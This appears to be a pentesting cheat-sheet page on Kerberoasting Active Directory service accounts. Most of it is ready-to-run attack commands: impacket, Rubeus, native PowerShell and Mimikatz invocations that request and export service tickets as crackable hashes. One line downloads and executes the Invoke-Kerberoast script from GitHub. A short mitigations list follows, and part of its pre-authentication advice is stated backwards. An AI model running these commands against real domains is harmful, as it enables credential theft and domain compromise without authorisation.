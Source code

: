 # Kerberoasting

the TGS encrypted using a password service account

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>the TGS encrypted using password service account</p></figcaption></figure>

{% hint style="warning" %}
The Kerberos session ticket (TGS) has a server portion that is encrypted with the password hash of the service account. This makes it possible to request a ticket and do an offline password attack
{% endhint %}

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-GetUsersSPNs hacktor.local/triceratops:Sh4rpH0rns -outputfile hashes.kerberoast
</strong><strong>
</strong>impacket-GetUserSPNs remo.htb/'o.rashed':'MyP@ssw0rd!' -target-domain remo.htb -dc-ip 10.0.2.10 -request -request-user "m.nathan" -outputfile crackme.txt
</code></pre>

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### **Windows**

{% code overflow="wrap" %}
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
#Using power-kerb
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

nvoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
{% endcode %}

### Enumeration

<pre class="language-bash"><code class="lang-bash">#Find user accounts used as Service accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-NetUser -SPN 
Get-DomainUser -SPN
#using impacket tools
<strong>impacket-GetUserSPNs hacktor.local/grey:digi@123 -dc-ip 192.168.1.50 -request
</strong></code></pre>

### Rubeus

{% code overflow="wrap" %}
```powershell
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /user:svcadmin /simple
#Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
Rubeus.exe kerberoast  /outfile:hashes.txt
#OR Native Command
Add-Type -AssemblyName System.IdentityModel ;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/msp-sqlreport.msp.local"  
```
{% endcode %}

### mimikatz

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'

```

### Kerberos Mitigations

In order to prevent or mitigate many of these Kerberos attacks a series of policies can be implemented. Some examples are the following:

* **Enable an strong password policy**: First step is to avoid having weak passwords in domain user accounts. To achieve this an strong password policy should be implemented, by ensuring that complex password option is enabled on Active Directory domain. Moreover, blacklisting some common predictable terms in passwords as company names, year or months names.
* **Avoid accounts without pre-authentication**: If it is no completely necessary, none account must have Kerberos pre-authentication enabled. In case that this cannot be avoided, take note of these special accounts and create pseudo-random passwords with high level of complexity.
* **Avoid executing services in behalf of account accounts**: Avoid services that run in domain user account context. In case of using an special user account for launch domain services, generate an strong pseudo-random password for that account.
* **Verify PAC**: Enable PAC verification in order to avoid attacks such as Silver Ticket. To enable this check set the value _ValidateKdcPacSignature_ (DWORD) in subkey _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters_ to 1.
* **Change passwords periodically**: Set policies to ensure that user passwords are periodically modified, for example, each 2 to 4 months. As special case, _krbtgt_ account password should also be changed periodically, since that key is used to create TGTs. To this purpose, the script [https://github.com/microsoft/New-KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1) can be used. It must be taken into account that _krbtgt_ password must be modified twice to invalidate current domain tickets, for cache reasons. Another consideration is that the functional level of domain must be equal or higher than Windows Server 2008 in order to manipulate _krbtgt_ account credentials.
* **Disable Kerberos weak encryption types**: Only Kerberos encryption with AES keys should be allowed. Furthermore, Kerberos requests with a lower level of encryption as RC4 should be monitored, due is usually used by attack tools.

Resources&#x20;

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=36036" %}
